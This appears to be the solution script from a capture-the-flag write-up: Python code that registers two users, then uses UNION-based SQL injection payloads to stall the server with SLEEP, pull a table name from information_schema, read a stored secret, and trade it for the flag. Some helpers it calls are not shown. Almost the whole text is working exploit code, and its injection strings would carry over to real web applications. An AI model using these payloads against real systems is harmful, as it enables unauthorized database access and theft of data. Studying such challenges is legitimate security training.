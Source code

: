 ```python
def sleeper(user_id):
    try:
        json = {"query_string": "' UNION SELECT SLEEP(15)-- -", "user_id": user_id}
        r = requests.post(f"{URL}/query", json=json)
        print("[*] slept")
    except requests.exceptions.Timeout:
        print("request timeout occurred.") 

def get_table(user_id, dummy_user_id):
    json = {"query_string": f"' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_name LIKE '{get_hash(user_id)}%')-- -", 
            "user_id": dummy_user_id}
    r = requests.post(f"{URL}/query", json=json)
    print(f"[*] retrieved table name: {r.text}")
    return r.text

def get_secret(dummy_user_id, table_name):
    json = {"query_string": f"' UNION SELECT (SELECT * FROM {table_name})-- -", "user_id": dummy_user_id}
    r = requests.post(f"{URL}/query", json=json)
    print(f"[*] retrieved secret: {r.text}")
    return int(r.text)

def get_flag(user_id, secret):
    json = {"secret": secret, "user_id": user_id}
    r = requests.post(f"{URL}/flag",  json=json)
    print(f"[*] retrieved flag: {r.text}")
    return r.text

def main():
    dummy_user_id = register()
    print(f"[*] registered user 1")
    user_id = register()
    print(f"[*] registered user 2")

    print(f"[*] injecting sleep")   
    sleeper_thread = threading.Thread(target=sleeper, args=(user_id,))
    sleeper_thread.start()


    print(f"[*] extracting table, secret and flag")
    table_name = get_table(user_id, dummy_user_id)
    secret = get_secret(dummy_user_id, table_name)
    flag = get_flag(user_id, secret)
    

    sleeper_thread.join()

if __name__ == "__main__":
    main()

```

{% endraw %}
